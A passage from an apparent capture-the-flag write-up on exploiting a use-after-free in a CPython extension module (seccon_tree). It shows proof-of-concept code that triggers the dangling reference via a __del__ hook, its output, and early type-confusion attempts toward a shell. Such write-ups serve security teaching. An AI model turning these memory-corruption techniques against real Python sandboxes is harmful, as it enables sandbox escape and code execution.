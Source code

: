 ```python
    
    # Drop refcount of Pwn object, triggering destruction
    root.add_child_left(Tree(None))

trigger()

new_ref = Tree('a')

print(dangling_ref)
print(new_ref)
```

Executing this in the docker container yields:

```bash
user@c19c5a5d3718:/exp$ ./python3.9x poc.py 
<seccon_tree.Tree object at 0x7f588df83f60>
<seccon_tree.Tree object at 0x7f588df83f60>
```

This scenario is not very exciting in itself, since the only thing we've turned the UAF into is a `Tree` with two references but an actual reference count of one, but demonstrates the vulnerability.

Funnily enough, this apparently was not the intended bug! After the competition ended, the author revealed that the intended bug was actually in `find`: the comparison with `repr` would allow a malicious object to implement a `__repr__` method that would replace a node in the tree, causing an use-after-free as well. I assume that exploitation would be mostly the same after this point, as these are quite similar scenarios.

## Exploitation

I chose to first implement a standalone exploit that doesn't concern itself with the sandboxed environment as it saves us a great deal of pain, both implementation wise and debugging wise. Luckily the exploit worked in the sandbox without major changes.

After creating the proof of concept it took me about three hours to get a shell. I made the mistake of treating this too much like a "normal" use-after-free scenario where you create a type confusion by allocating two different objects at the same location. For CPython this turned out to be impossible (or too hard) with `PyObject` types, as the interpreter dynamically deduces the types based on the `PyTypeObject` pointer, and as such there is no actually difference in behavior when operating on the value in two different contexts. For example:

```python
from seccon_tree import Tree

root = Tree('x')

dangling_ref = None

class X:
    def __del__(self):
        global dangling_ref
        print("[+] Triggering UAF")
        dangling_ref = root.get_child_left()

def trigger():
    root.add_child_left(Tree(X()))
    root.add_child_left(Tree(None))

trigger()

# this seems to magically be allocated at the same spot as `dangling_ref`
confusion = bytes(10) 
print(dangling_ref)
print(confusion)
input()
```